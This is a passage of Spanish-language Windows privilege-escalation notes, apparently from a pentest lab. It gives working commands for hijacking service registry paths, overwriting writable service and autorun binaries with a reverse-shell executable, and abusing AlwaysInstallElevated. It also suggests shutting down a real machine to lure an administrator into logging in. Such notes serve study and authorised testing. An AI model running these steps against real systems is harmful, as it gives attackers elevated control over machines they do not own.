         reg add HKLM\SYSTEM\CurrentControlSet\services\service /v ImagePath /t REG_EXPAND_SZ /d C:\Path\to/malicious.exe /f

Iniciamos un netcat como listener y corremos el servicio

        net start regsvc

### INSECURE SERVICE EXECUTABLES

Una vez que detectamos el servicio con privilegios elevados, nos fijamos con accesschk.exe si el binario del servicio es writeable por nuestro user/grupo.

        C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\servicio.exe"

De tener permisos de escritura sobre el archivo, podemos reemplazarlo por nuestro archivo malicioso:

        copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\servicio.exe" /Y

Luego corremos netcat y corremos el servicio.

        net start servicio



## REGISTRY EXPLOITATION


### EXPLOIT AUTORUNS

Buscamos en el registro ejecutables de autoruns

        reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

usamos accesschk.exe para ver los permisos que tienen los autoruns

        accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\AUTORUN.exe"

Si nuestro user/grupo tiene permisos de escritura sobre el autorun, lo reemplazamos por el archivo malicioso y reiniciamos la pc(en un entorno real es mejor apagarla para llamar la atención del admin y 
que se loguee en la misma):

        copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

abrimos netcat y esperamos a que alguien encienda la máquina y se loguee


### ALWAYSINSTALLELEVATED 


Hacemos una query al registro buscando las keys de Alwaysinstallelevated

        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated


        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

si en ambos casos las keys están seteadas en 1 (0x1 == true)

generamos un archivo malicioso .msi con una shell reversa y lo pasamos a la víctima:
